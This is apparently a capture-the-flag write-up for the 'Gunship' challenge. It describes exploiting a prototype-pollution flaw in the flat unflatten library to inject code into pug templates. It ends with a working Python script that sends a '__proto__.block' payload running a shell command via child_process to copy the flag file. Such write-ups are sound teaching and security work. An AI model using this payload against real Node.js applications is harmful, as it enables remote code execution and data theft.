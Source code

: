  ## Gunship
 
At the routes/index.js I saw unflatten and pug libraries, with versions 5.0.0 and 3.0.0 respectively 

Then looked what has changed for this version
https://github.com/hughsk/flat/compare/5.0.0...5.0.1
 
At start I saw "Fix prototype pollution on unflatten" string

By this code https://github.com/hughsk/flat/commit/20ef0ef55dfa028caddaedbcb33efbdb04d18e13 I got thought that I can add something to String throught __proto__ and then force pug to execute it.

By googling about polution I found https://blog.p6.is/AST-Injection/ and use code from them. 

```python
import requests

URL = "http://138.68.161.230:31811"

requests.post(URL+'/api/submit', json = {
    "artist.name":"Gingell",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`sh -c 'cat /app/flag*>/app/static/flag'`)"
    }
    })
print(requests.get(URL+'/static/flag').text)
```
